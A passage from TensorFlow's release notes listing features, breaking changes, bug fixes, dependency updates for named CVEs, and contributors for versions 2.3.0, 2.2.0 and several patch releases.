  ([CVE-2020-15209](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15209),
  [CVE-2020-15210](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15210),
  [CVE-2020-15211](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15211))
* Updates `sqlite3` to `3.33.00` to handle
  [CVE-2020-9327](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9327),
  [CVE-2020-11655](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11655),
  [CVE-2020-11656](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11656),
  [CVE-2020-13434](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13434),
  [CVE-2020-13435](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13435),
  [CVE-2020-13630](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13630),
  [CVE-2020-13631](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13631),
  [CVE-2020-13871](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13871),
  and
  [CVE-2020-15358](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15358).
* Fixes #41630 by including `max_seq_length` in CuDNN descriptor cache key
* Pins `numpy` to 1.18.5 to prevent ABI breakage when compiling code that uses
  both NumPy and TensorFlow headers.


# Release 2.3.0

## Major Features and Improvements

*   `tf.data` adds two new mechanisms to solve input pipeline bottlenecks and
    save resources:

    *   [snapshot](https://www.tensorflow.org/api_docs/python/tf/data/experimental/snapshot)
    *   [tf.data service](https://www.tensorflow.org/api_docs/python/tf/data/experimental/service).

    In addition checkout the detailed
    [guide](https://www.tensorflow.org/guide/data_performance_analysis) for
    analyzing input pipeline performance with TF Profiler.

*   [`tf.distribute.TPUStrategy`](https://www.tensorflow.org/api_docs/python/tf/distribute/TPUStrategy)
    is now a stable API and no longer considered experimental for TensorFlow.
    (earlier `tf.distribute.experimental.TPUStrategy`).

*   [TF Profiler](https://www.tensorflow.org/guide/profiler) introduces two new
    tools: a memory profiler to visualize your model’s memory usage over time
    and a [python tracer](https://www.tensorflow.org/guide/profiler#events)
    which allows you to trace python function calls in your model. Usability
    improvements include better diagnostic messages and
    [profile options](https://tensorflow.org/guide/profiler#collect_performance_data)
    to customize the host and device trace verbosity level.

*   Introduces experimental support for Keras Preprocessing Layers API
    ([`tf.keras.layers.experimental.preprocessing.*`](https://www.tensorflow.org/api_docs/python/tf/keras/layers/experimental/preprocessing?version=nightly))
    to handle data preprocessing operations, with support for composite tensor
    inputs. Please see below for additional details on these layers.

*   TFLite now properly supports dynamic shapes during conversion and inference.
    We’ve also added opt-in support on Android and iOS for
    [XNNPACK](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/delegates/xnnpack),
    a highly optimized set of CPU kernels, as well as opt-in support for
    [executing quantized models on the GPU](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/g3doc/performance/gpu_advanced.md#running-quantized-models-experimental).

*   Libtensorflow packages are available in GCS starting this release. We have
    also started to
    [release a nightly version of these packages](https://github.com/tensorflow/tensorflow#official-builds).

*   The experimental Python API
    [`tf.debugging.experimental.enable_dump_debug_info()`](https://www.tensorflow.org/api_docs/python/tf/debugging/experimental/enable_dump_debug_info)
    now allows you to instrument a TensorFlow program and dump debugging
    information to a directory on the file system. The directory can be read and
    visualized by a new interactive dashboard in TensorBoard 2.3 called
    [Debugger V2](https://www.tensorflow.org/tensorboard/debugger_v2), which
    reveals the details of the TensorFlow program including graph structures,
    history of op executions at the Python (eager) and intra-graph levels, the
    runtime dtype, shape, and numerical composition of tensors, as well as their
    code locations.

## Breaking Changes

*   Increases the **minimum bazel version** required to build TF to **3.1.0**.
*   `tf.data`
    *   Makes the following (breaking) changes to the `tf.data`.
    *   C++ API: - `IteratorBase::RestoreInternal`,
        `IteratorBase::SaveInternal`, and `DatasetBase::CheckExternalState`
        become pure-virtual and subclasses are now expected to provide an
        implementation.
    *   The deprecated `DatasetBase::IsStateful` method is removed in favor of
        `DatasetBase::CheckExternalState`.
    *   Deprecated overrides of `DatasetBase::MakeIterator` and
        `MakeIteratorFromInputElement` are removed.
    *   The signature of `tensorflow::data::IteratorBase::SaveInternal` and
        `tensorflow::data::IteratorBase::SaveInput` has been extended with
        `SerializationContext` argument to enable overriding the default policy
        for the handling external state during iterator checkpointing. This is
        not a backwards compatible change and all subclasses of `IteratorBase`
        *need to be updated* accordingly.
*   `tf.keras`
    *   Add a new `BackupAndRestore` callback for handling distributed training
        failures & restarts. Please take a look at this
        [tutorial](https://www.tensorflow.org/tutorials/distribute/multi_worker_with_keras)
        for details on how to use the callback.
*   `tf.image.extract_glimpse` has been updated to correctly process the case
    where `centered=False` and `normalized=False`. This is a breaking change as
    the output is different from (incorrect) previous versions. Note this
    breaking change only impacts `tf.image.extract_glimpse` and
    `tf.compat.v2.image.extract_glimpse` API endpoints. The behavior of
    `tf.compat.v1.image.extract_glimpse` does not change. The behavior of
    existing C++ kernel `ExtractGlimpse` does not change either, so saved models
    using `tf.raw_ops.ExtractGlimpse` will not be impacted.

## Known Caveats
  * `tf.lite`
    * Keras-based LSTM models must be converted with an explicit batch size in the input layer.

## Bug Fixes and Other Changes

### TF Core:
  * Set `tf2_behavior` to 1 to enable V2 for early loading cases.
  * Add `execute_fn_for_device function` to dynamically choose the implementation based on underlying device placement.
  * Eager:
    * Add `reduce_logsumexp` benchmark with experiment compile.
    * Give `EagerTensor`s a meaningful `__array__` implementation.
    * Add another version of defun matmul for performance analysis.
  * `tf.function`/AutoGraph:
    * `AutoGraph` now includes into TensorFlow loops any variables that are closed over by local functions. Previously, such variables were sometimes incorrectly ignored.
    * functions returned by the `get_concrete_function` method of `tf.function` objects can now be called with arguments consistent with the original arguments or type specs passed to `get_concrete_function`.  This calling convention is now the preferred way to use concrete functions with nested values and composite tensors. Please check the [guide](https://www.tensorflow.org/guide/concrete_function) for more details on `concrete_ function`.
    * Update `tf.function`'s `experimental_relax_shapes` to handle composite tensors appropriately.
    * Optimize `tf.function` invocation, by removing redundant list converter.
    * `tf.function` will retrace when called with a different variable instead of simply using the `dtype` & `shape`.
    * [Improve support](https://github.com/tensorflow/tensorflow/issues/33862) for dynamically-sized TensorArray inside `tf.function`.
  * `tf.math`:
    * Narrow down `argmin`/`argmax` contract to always return the smallest index for ties.
    * `tf.math.reduce_variance` and `tf.math.reduce_std` return correct computation for complex types and no longer support integer types.
    * Add Bessel functions of order 0,1 to `tf.math.special`.
    * `tf.divide` now always returns a tensor to be consistent with documentation and other APIs.
  * `tf.image`:
    * Replaced [`tf.image.non_max_suppression_padded`](https://www.tensorflow.org/versions/r2.3/api_docs/python/tf/image/non_max_suppression_padded?hl=en) with a new implementation that supports batched inputs, which is considerably faster on TPUs and GPUs. Boxes with area=0 will be ignored. Existing usage with single inputs should still work as before.
  * `tf.linalg`
    * Add `tf.linalg.banded_triangular_solve`.
  * `tf.random`:
    * Add `tf.random.stateless_parameterized_truncated_normal`.
  * `tf.ragged`:
    * Add `tf.ragged.cross` and `tf.ragged.cross_hashed` operations.
  * `tf.RaggedTensor`:
    * `RaggedTensor.to_tensor()` now preserves static shape.
    * Add `tf.strings.format()` and `tf.print()` to support RaggedTensors.
  * `tf.saved_model`:
    * `@tf.function` from SavedModel no longer ignores args after a `RaggedTensor` when selecting the concrete function to run.
    * Fix save model issue for ops with a list of functions.
    * Add `tf.saved_model.LoadOptions` with [`experimental_io_device`](https://www.tensorflow.org/versions/r2.3/api_docs/python/tf/saved_model/LoadOptions?hl=en) as arg with default value `None` to choose the I/O device for loading models and weights.
    * Update `tf.saved_model.SaveOptions` with [`experimental_io_device`](https://www.tensorflow.org/versions/r2.3/api_docs/python/tf/saved_model/SaveOptions?hl=en) as arg with default value `None` to choose the I/O device for saving models and weights.
    * Mutable tables now restore checkpointed values when loaded from SavedModel.
    * The user object metadata field in the SavedModel proto has been deprecated as part of the updates to Keras SavedModel. Keras was the only consumer of this field prior to the update.
  * GPU
    * TF 2.3 includes PTX kernels only for [compute capability](https://developer.nvidia.com/cuda-gpus) 7.0 to reduce the TF pip binary size.  Earlier releases included PTX for a variety of older compute capabilities.
    * Remove environmental variable `TF_USE_CUDNN`.
  * Others
    * Retain parent namescope for ops added inside `tf.while_loop`/`tf.cond`/`tf.switch_case`.
    * Update `tf.vectorized_map` to support vectorizing `tf.while_loop` and TensorList operations.
    * `tf.custom_gradient` can now be applied to functions that accept nested structures of `tensors` as inputs (instead of just a list of tensors). Note that Python structures such as tuples and lists now won't be treated as tensors, so if you still want them to be treated that way, you need to wrap them with `tf.convert_to_tensor`.
    * No lowering on gradient case op when input is `DeviceIndex` op.
    * Extend the ragged version of `tf.gather` to support `batch_dims` and `axis` args.
    * Update `tf.map_fn` to support RaggedTensors and SparseTensors.
    * Deprecate `tf.group`. It is not useful in eager mode.
    * Add CPU and GPU implementation of modified variation of [`FTRL`](https://www.tensorflow.org/versions/r2.3/api_docs/python/tf/raw_ops/ApplyFtrl)/[`FTRLV2`](https://www.tensorflow.org/versions/r2.3/api_docs/python/tf/raw_ops/ApplyFtrlV2) that can triggerred by `multiply_linear_by_lr` allowing a learning rate of zero.

### `tf.data`:
  * `tf.data.experimental.dense_to_ragged_batch` works correctly with tuples.
  * `tf.data.experimental.dense_to_ragged_batch` to output variable ragged rank.
  * `tf.data.experimental.cardinality` is now a method on `tf.data.Dataset`.
  * `tf.data.Dataset` now supports `len(Dataset)` when the cardinality is finite.

### `tf.distribute`:
  * Expose experimental [`tf.distribute.DistributedDataset`](https://www.tensorflow.org/versions/r2.3/api_docs/python/tf/distribute/DistributedDataset?hl=en) and [`tf.distribute.DistributedIterator`](https://www.tensorflow.org/versions/r2.3/api_docs/python/tf/distribute/DistributedIterator) to distribute input data when using `tf.distribute` to scale training on multiple devices.
    * Added a [`get_next_as_optional`](https://www.tensorflow.org/versions/r2.3/api_docs/python/tf/distribute/DistributedIterator?hl=en#get_next_as_optional) method for [`tf.distribute.DistributedIterator`](https://www.tensorflow.org/versions/r2.3/api_docs/python/tf/distribute/DistributedIterator?hl=en) class to return a `tf.experimental.Optional` instance that contains the next value for all replicas or none instead of raising an out of range error. Also see *new* [guide on input distribution](https://www.tensorflow.org/tutorials/distribute/input).
  * Allow var.assign on MirroredVariables with aggregation=NONE in replica context. Previously this would raise an error. We now allow this because many users and library writers find using `.assign` in replica context to be more convenient, instead of having to use `Strategy.extended.update` which was the previous way of updating variables in this situation.
  * `tf.distribute.experimental.MultiWorkerMirroredStrategy` adds support for partial batches. Workers running out of data now continue to participate in the training with empty inputs, instead of raising an error. Learn more about [partial batches here](https://www.tensorflow.org/tutorials/distribute/input#partial_batches).
  * Improve the performance of reading metrics eagerly under `tf.distribute.experimental.MultiWorkerMirroredStrategy`.
  * Fix the issue that `strategy.reduce()` inside `tf.function` may raise exceptions when the values to reduce are from loops or if-clauses.
  * Fix the issue that `tf.distribute.MirroredStrategy` cannot be used together with `tf.distribute.experimental.MultiWorkerMirroredStrategy`.
  * Add a `tf.distribute.cluster_resolver.TPUClusterResolver.connect` API to simplify TPU initialization.
  * Add `tf.distribute.Strategy.gather` and `tf.distribute.ReplicaContext.all_gather` methods to gather and concatenate `tf.distribute.DistributedValues` across workers and devices.

### `tf.keras`:
  * Introduces experimental preprocessing layers API (`tf.keras.layers.experimental.preprocessing`)  to handle data preprocessing operations such as categorical feature encoding, text vectorization, data normalization, and data discretization (binning). The newly added layers provide a replacement for the  legacy feature column API, and support composite tensor inputs.
  * Added **categorical data** processing layers:
    * `IntegerLookup` & `StringLookup`: build an index of categorical feature values
    * `CategoryEncoding`: turn integer-encoded categories into one-hot, multi-hot, or tf-idf encoded representations
    * `CategoryCrossing`: create new categorical features representing co-occurrences of previous categorical feature values
    * `Hashing`: the hashing trick, for large-vocabulary categorical features
    * `Discretization`: turn continuous numerical features into categorical features by binning their values
  * Improved **image preprocessing** layers: `CenterCrop`, `Rescaling`
  * Improved **image augmentation** layers: `RandomCrop`, `RandomFlip`, `RandomTranslation`, `RandomRotation`, `RandomHeight`, `RandomWidth`, `RandomZoom`, `RandomContrast`
  * Improved **`TextVectorization`** layer, which handles string tokenization, n-gram generation, and token encoding
    * The `TextVectorization` layer now accounts for the mask_token as part of the vocabulary size when output_mode='int'. This means that, if you have a max_tokens value of 5000, your output will have 5000 unique values (not 5001 as before).
    * Change the return value of `TextVectorization.get_vocabulary()` from `byte` to `string`. Users who previously were calling 'decode' on the output of this method should no longer need to do so.
  * Introduce new Keras dataset generation utilities :
    * **[`image_dataset_from_directory`](https://www.tensorflow.org/api_docs/python/tf/keras/preprocessing/image_dataset_from_directory)** is a utility based on `tf.data.Dataset`, meant to replace the legacy `ImageDataGenerator`. It takes you from a structured directory of images to a labeled dataset, in one function call. Note that it doesn't perform image data augmentation (which is meant to be done using preprocessing layers).
    * **[`text_dataset_from_directory`](https://www.tensorflow.org/api_docs/python/tf/keras/preprocessing/text_dataset_from_directory)** takes you from a structured directory of text files to a labeled dataset, in one function call.
    * **[`timeseries_dataset_from_array`](https://www.tensorflow.org/api_docs/python/tf/keras/preprocessing/timeseries_dataset_from_array)** is a `tf.data.Dataset`-based replacement of the legacy `TimeseriesGenerator`. It takes you from an array of timeseries data to a dataset of shifting windows with their targets.
  * Added [`experimental_steps_per_execution`](https://www.tensorflow.org/versions/r2.3/api_docs/python/tf/keras/Model?hl=en#compile)
 arg to `model.compile` to indicate the number of batches to run per `tf.function` call. This can speed up Keras Models on TPUs up to 3x.
  * Extends `tf.keras.layers.Lambda` layers to support multi-argument lambdas, and keyword arguments when calling the layer.
  * Functional models now get constructed if *any* tensor in a layer call's arguments/keyword arguments comes from a keras input. Previously the functional api would only work if all of the elements in the first argument to the layer came from a keras input.
  * Clean up `BatchNormalization` layer's `trainable` property to act like standard python state when it's used inside `tf.functions` (frozen at tracing time), instead of acting like a pseudo-variable whose updates *kind of sometimes* get reflected in already-traced `tf.function` traces.
  * Add the `Conv1DTranspose` layer.
  * Refine the semantics of `SensitivitySpecificityBase` derived metrics. See the updated API docstrings for [`tf.keras.metrics.SensitivityAtSpecificity`](https://www.tensorflow.org/versions/r2.3/api_docs/python/tf/keras/metrics/SensitivityAtSpecificity) and [`tf.keras.metrics.SpecificityAtSensitivty`](https://www.tensorflow.org/versions/r2.3/api_docs/python/tf/keras/metrics/SpecificityAtSensitivity).

### `tf.lite`:
  * Converter
      * Restored `inference_input_type` and `inference_output_type` flags in TF 2.x TFLiteConverter (backward compatible with TF 1.x) to support integer (tf.int8, tf.uint8) input and output types in post training full integer quantized models.
      * Added support for converting and resizing models with dynamic (placeholder) dimensions. Previously, there was only limited support for dynamic batch size, and even that did not guarantee that the model could be properly resized at runtime.
       * Enabled experimental support for a new quantization mode with 16-bit activations and 8-bit weights. See `lite.OpsSet.EXPERIMENTAL_TFLITE_BUILTINS_ACTIVATIONS_INT16_WEIGHTS_INT8`.
  * CPU
      * Fix an issue w/ dynamic weights and `Conv2D` on x86.
      * Add a runtime Android flag for enabling `XNNPACK` for optimized CPU performance.
      * Add a runtime iOS flag for enabling `XNNPACK` for optimized CPU performance.
      * Add a compiler flag to enable building a TFLite library that applies `XNNPACK` delegate automatically when the model has a `fp32` operation.
  * GPU
      * Allow GPU acceleration starting with internal graph nodes
      * Experimental support for quantized models with the Android GPU delegate
      * Add GPU delegate whitelist.
      * Rename GPU whitelist -> compatibility (list).
      * Improve GPU compatibility list entries from crash reports.
  * NNAPI
      * Set default value for `StatefulNnApiDelegate::Options::max_number_delegated_partitions` to 3.
      * Add capability to disable `NNAPI` CPU and check `NNAPI` Errno.
      * Fix crashes when using `NNAPI` with target accelerator specified with model containing Conv2d or FullyConnected or LSTM nodes with quantized weights.
      * Fix `ANEURALNETWORKS_BAD_DATA` execution failures with `sum`/`max`/`min`/`reduce` operations with `scalar` inputs.
  * Hexagon
      * TFLite Hexagon Delegate out of experimental.
      * Experimental `int8` support for most hexagon ops.
      * Experimental per-channel quant support for `conv` in Hexagon delegate.
      * Support dynamic batch size in C++ API.
  * CoreML
     * Opensource CoreML delegate
  * Misc
      * Enable building Android TFLite targets on Windows
      * Add support for `BatchMatMul`.
      * Add support for `half_pixel_centers` with `ResizeNearestNeighbor`.
      * Add 3D support for `BatchToSpaceND`.
      * Add 5D support for `BroadcastSub`, `Maximum`, `Minimum`, `Transpose` and `BroadcastDiv`.
      * Rename `kTfLiteActRelu1` to `kTfLiteActReluN1To1`.
      * Enable flex delegate on tensorflow.lite.Interpreter Python package.
      * Add `Buckettize`, `SparseCross` and `BoostedTreesBucketize` to the flex whitelist.
      * Add support for selective registration of flex ops.
      * Add missing kernels for flex delegate whitelisted ops.
      * Fix issue when using direct `ByteBuffer` inputs with graphs that have dynamic shapes.
      * Fix error checking supported operations in a model containing `HardSwish`.

### Packaging Support
  * Added `tf.sysconfig.get_build_info()`. Returns a dict that describes the build environment of the currently installed TensorFlow package, e.g. the NVIDIA CUDA and NVIDIA CuDNN versions used when TensorFlow was built.

### Profiler
  * Fix a subtle use-after-free issue in `XStatVisitor::RefValue()`.

### TPU Enhancements
  * Adds 3D mesh support in TPU configurations ops.
  * Added TPU code for `FTRL` with `multiply_linear_by_lr`.
  * Silently adds a new file system registry at `gstpu`.
  * Support `restartType` in cloud tpu client.
  * Depend on a specific version of google-api-python-client.
  * Fixes apiclient import.

### Tracing and Debugging
  * Add a `TFE_Py_Execute` traceme.

### XLA Support
  * Implement stable `argmin` and `argmax`

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

902449@58880@bigcat_chen@ASIC, Abdul Baseer Khan, Abhineet Choudhary, Abolfazl Shahbazi, Adam Hillier, ag.ramesh, Agoniii, Ajay P, Alex Hoffman, Alexander Bayandin, Alexander Grund, Alexandre Abadie, Alexey Rogachevskiy, amoitra, Andrew Stevens, Angus-Luo, Anshuman Tripathy, Anush Elangovan, Artem Mavrin, Ashutosh Hathidara, autoih, Ayushman Kumar, ayushmankumar7, Bairen Yi, Bas Aarts, Bastian Eichenberger, Ben Barsdell, bhack, Bharat Raghunathan, Biagio Montaruli, Bigcat-Himax, blueyi, Bryan Cutler, Byambaa, Carlos Hernandez-Vaquero, Chen Lei, Chris Knorowski, Christian Clauss, chuanqiw, CuiYifeng, Daniel Situnayake, Daria Zhuravleva, Dayananda-V, Deven Desai, Devi Sandeep Endluri, Dmitry Zakharov, Dominic Jack, Duncan Riach, Edgar Liberis, Ehsan Toosi, ekuznetsov139, Elena Zhelezina, Eugene Kuznetsov, Eugene Mikhantiev, Evgenii Zheltonozhskii, Fabio Di Domenico, Fausto Morales, Fei Sun, feihugis, Felix E. Klee, flyingcat, Frederic Bastien, Fredrik Knutsson, frreiss, fsx950223, ganler, Gaurav Singh, Georgios Pinitas, Gian Marco Iodice, Giorgio Arena, Giuseppe Rossini, Gregory Keith, Guozhong Zhuang, gurushantj, Hahn Anselm, Harald Husum, Harjyot Bagga, Hristo Vrigazov, Ilya Persky, Ir1d, Itamar Turner-Trauring, jacco, Jake Tae, Janosh Riebesell, Jason Zaman, jayanth, Jeff Daily, Jens Elofsson, Jinzhe Zeng, JLZ, Jonas Skog, Jonathan Dekhtiar, Josh Meyer, Joshua Chia, Judd, justkw, Kaixi Hou, Kam D Kasravi, Kamil Rakoczy, Karol Gugala, Kayou, Kazuaki Ishizaki, Keith Smiley, Khaled Besrour, Kilaru Yasaswi Sri Chandra Gandhi, Kim, Young Soo, Kristian Hartikainen, Kwabena W. Agyeman, Leslie-Fang, Leslie-Fang-Intel, Li, Guizi, Lukas Geiger, Lutz Roeder, M\U00E5Ns Nilsson, Mahmoud Abuzaina, Manish, Marcel Koester, Marcin Sielski, marload, Martin Jul, Matt Conley, mdfaijul, Meng, Peng, Meteorix, Michael Käufl, Michael137, Milan Straka, Mitchell Vitez, Ml-0, Mokke Meguru, Mshr-H, nammbash, Nathan Luehr, naumkin, Neeraj Bhadani, ngc92, Nick Morgan, nihui, Niranjan Hasabnis, Niranjan Yadla, Nishidha Panpaliya, Oceania2018, oclyke, Ouyang Jin, OverLordGoldDragon, Owen Lyke, Patrick Hemmer, Paul Andrey, Peng Sun, periannath, Phil Pearl, Prashant Dandriyal, Prashant Kumar, Rahul Huilgol, Rajan Singh, Rajeshwar Reddy T, rangjiaheng, Rishit Dagli, Rohan Reddy, rpalakkal, rposts, Ruan Kunliang, Rushabh Vasani, Ryohei Ikegami, Semun Lee, Seo-Inyoung, Sergey Mironov, Sharada Shiddibhavi, ShengYang1, Shraiysh Vaishay, Shunya Ueta, shwetaoj, Siyavash Najafzade, Srinivasan Narayanamoorthy, Stephan Uphoff, storypku, sunchenggen, sunway513, Sven-Hendrik Haase, Swapnil Parekh, Tamas Bela Feher, Teng Lu, tigertang, tomas, Tomohiro Ubukata, tongxuan.ltx, Tony Tonev, Tzu-Wei Huang, Téo Bouvard, Uday Bondhugula, Vaibhav Jade, Vijay Tadikamalla, Vikram Dattu, Vincent Abriou, Vishnuvardhan Janapati, Vo Van Nghia, VoVAllen, Will Battel, William D. Irons, wyzhao, Xiaoming (Jason) Cui, Xiaoquan Kong, Xinan Jiang, xutianming, Yair Ehrenwald, Yasir Modak, Yasuhiro Matsumoto, Yixing Fu, Yong Tang, Yuan Tang, zhaozheng09, Zilin Zhu, zilinzhu, 张志豪

# Release 2.1.1

## Bug Fixes and Other Changes
* Updates `sqlite3` to `3.31.01` to handle [CVE-2019-19880](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19880), [CVE-2019-19244](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19244) and [CVE-2019-19645](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19645)
* Updates `curl` to `7.69.1` to handle [CVE-2019-15601](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15601)
* Updates `libjpeg-turbo` to `2.0.4` to handle [CVE-2018-19664](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19664), [CVE-2018-20330](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20330) and [CVE-2019-13960](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13960)
* Updates Apache Spark to `2.4.5` to handle [CVE-2019-10099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10099), [CVE-2018-17190](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17190) and [CVE-2018-11770](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11770)
* Fixes a versioning bug which causes Keras layers from TF 1.x to be used instead of those from TF 2.x

# Release 2.0.2

## Bug Fixes and Other Changes
* Updates `sqlite3` to `3.31.01` to handle [CVE-2019-19880](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19880), [CVE-2019-19244](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19244) and [CVE-2019-19645](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19645)
* Updates `curl` to `7.69.1` to handle [CVE-2019-15601](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15601)
* Updates `libjpeg-turbo` to `2.0.4` to handle [CVE-2018-19664](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19664), [CVE-2018-20330](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20330) and [CVE-2019-13960](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13960)
* Updates Apache Spark to `2.4.5` to handle [CVE-2019-10099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10099), [CVE-2018-17190](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17190) and [CVE-2018-11770](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11770)

# Release 1.15.3

## Bug Fixes and Other Changes
* Updates `sqlite3` to `3.31.01` to handle [CVE-2019-19880](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19880), [CVE-2019-19244](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19244) and [CVE-2019-19645](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19645)
* Updates `curl` to `7.69.1` to handle [CVE-2019-15601](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15601)
* Updates `libjpeg-turbo` to `2.0.4` to handle [CVE-2018-19664](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19664), [CVE-2018-20330](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20330) and [CVE-2019-13960](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13960)
* Updates Apache Spark to `2.4.5` to handle [CVE-2019-10099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10099), [CVE-2018-17190](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17190) and [CVE-2018-11770](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11770)

# Release 2.2.0

TensorFlow 2.2 discontinues support for Python 2, [previously announced](https://groups.google.com/a/tensorflow.org/d/msg/announce/gVwS5RC8mds/dCt1ka2XAAAJ) as following [Python 2's EOL on January 1, 2020](https://www.python.org/dev/peps/pep-0373/#update).

Coinciding with this change, new releases of [TensorFlow's Docker images](https://hub.docker.com/r/tensorflow/tensorflow/) provide Python 3 exclusively. Because all images now use Python 3, Docker tags containing `-py3` will no longer be provided and existing `-py3` tags like `latest-py3` will not be updated.

## Major Features and Improvements

* Replaced the scalar type for string tensors from `std::string` to `tensorflow::tstring` which is now ABI stable.
* A new Profiler for TF 2 for CPU/GPU/TPU. It offers both device and host performance analysis, including input pipeline and TF Ops. Optimization advisory is provided whenever possible. Please see [this tutorial](https://www.tensorflow.org/tensorboard/tensorboard_profiling_keras) and [guide](https://www.tensorflow.org/guide/profiler) for usage guidelines.
* Export C++ functions to Python using `pybind11` as opposed to `SWIG` as a part of our [deprecation of swig efforts](https://github.com/tensorflow/community/blob/master/rfcs/20190208-pybind11.md).
* `tf.distribute`:
  * Support added for global sync `BatchNormalization` by using the newly added `tf.keras.layers.experimental.SyncBatchNormalization` layer. This layer will sync `BatchNormalization` statistics every step across all replicas taking part in sync training.
  * Performance improvements for GPU multi-worker distributed training using `tf.distribute.experimental.MultiWorkerMirroredStrategy`
    * Update NVIDIA `NCCL` to `2.5.7-1` for better performance and performance tuning. Please see [nccl developer guide](https://docs.nvidia.com/deeplearning/sdk/nccl-developer-guide/docs/env.html) for more information on this.
    * Support gradient `allreduce` in `float16`. See this [example](https://github.com/tensorflow/models/blob/master/official/modeling/grad_utils.py) usage.
    * Experimental support of [all reduce gradient packing](https://www.tensorflow.org/api_docs/python/tf/distribute/experimental/CollectiveHints) to allow overlapping gradient aggregation with backward path computation.
    * Deprecated `experimental_run_v2` method for distribution strategies and renamed the method `run` as it is no longer experimental.
    * Add CompositeTensor support for DistributedIterators. This should help prevent unnecessary function retracing and memory leaks.
* `tf.keras`:
  * `Model.fit` major improvements:
     * You can now use custom training logic with `Model.fit` by overriding `Model.train_step`.
     * Easily write state-of-the-art training loops without worrying about all of the features `Model.fit` handles for you (distribution strategies, callbacks, data formats, looping logic, etc)
     * See the default [`Model.train_step`](https://github.com/tensorflow/tensorflow/blob/1381fc8e15e22402417b98e3881dfd409998daea/tensorflow/python/keras/engine/training.py#L540) for an example of what this function should look like. Same applies for validation and inference via `Model.test_step` and `Model.predict_step`.
     * SavedModel uses its own `Model._saved_model_inputs_spec` attr now instead of
       relying on `Model.inputs` and `Model.input_names`, which are no longer set for subclass Models.
       This attr is set in eager, `tf.function`, and graph modes. This gets rid of the need for users to
       manually call `Model._set_inputs` when using Custom Training Loops(CTLs).
     * Dynamic shapes are supported for generators by calling the Model on the first batch we "peek" from the generator.
       This used to happen implicitly in `Model._standardize_user_data`. Long-term, a solution where the
       `DataAdapter` doesn't need to call the Model is probably preferable.
  * The SavedModel format now supports all Keras built-in layers (including metrics, preprocessing layers, and stateful RNN layers)
  * Update Keras batch normalization layer to use the running mean and average computation in the `fused_batch_norm`. You should see significant performance improvements when using `fused_batch_norm` in Eager mode.

* `tf.lite`:
  * Enable TFLite experimental new converter by default.
* XLA
  * XLA now builds and works on windows. All prebuilt packages come with XLA available.
  * XLA can be [enabled for a `tf.function`](https://www.tensorflow.org/xla#explicit_compilation_with_tffunction
) with “compile or throw exception” semantics on CPU and GPU.

## Breaking Changes
* `tf.keras`:
  * In `tf.keras.applications` the name of the "top" layer has been standardized to "predictions". This is only a problem if your code relies on the exact name of the layer.
  * Huber loss function has been updated to be consistent with other Keras losses. It now computes mean over the last axis of per-sample losses before applying the reduction function.
* AutoGraph no longer converts functions passed to `tf.py_function`, `tf.py_func` and `tf.numpy_function`.
* Deprecating `XLA_CPU` and `XLA_GPU` devices with this release.
* Increasing the minimum bazel version to build TF to 2.0.0 to use Bazel's `cc_experimental_shared_library`.
* Keras compile/fit behavior for functional and subclassed models have been unified. Model properties such as `metrics`, `metrics_names` will now be available only after **training/evaluating the model on actual data** for functional models. `metrics` will **now include** model `loss` and output losses.`loss_functions` property has been removed from the model. This was an undocumented property that was accidentally public and has now been removed.

## Known Caveats
* The current TensorFlow release now **requires** [gast](https://pypi.org/project/gast/) version 0.3.3.

## Bug Fixes and Other Changes

*   `tf.data`:
    *   Removed `autotune_algorithm` from experimental optimization options.
*   TF Core:
    *   `tf.constant` always creates CPU tensors irrespective of the current
        device context.
    *   Eager `TensorHandles` maintain a list of mirrors for any copies to local
        or remote devices. This avoids any redundant copies due to op execution.
